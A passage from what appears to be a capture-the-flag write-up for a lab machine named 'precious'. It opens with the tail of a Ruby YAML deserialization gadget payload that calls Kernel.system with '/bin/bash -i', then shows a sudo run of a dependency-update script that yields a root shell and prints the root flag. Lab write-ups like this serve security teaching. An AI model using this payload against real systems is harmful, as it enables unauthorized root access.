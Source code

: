 ```
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/bash -i
         method_id: :resolve
```

We now have root access to the box through this flaw:
```
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
root@precious:/tmp# whoami
root

root@precious:~# ls -l
total 4
-rw-r----- 1 root root 33 May 11 15:30 root.txt

root@precious:~# cat root.txt
341afeaaafbd58cfbd9a4eea3780c202
```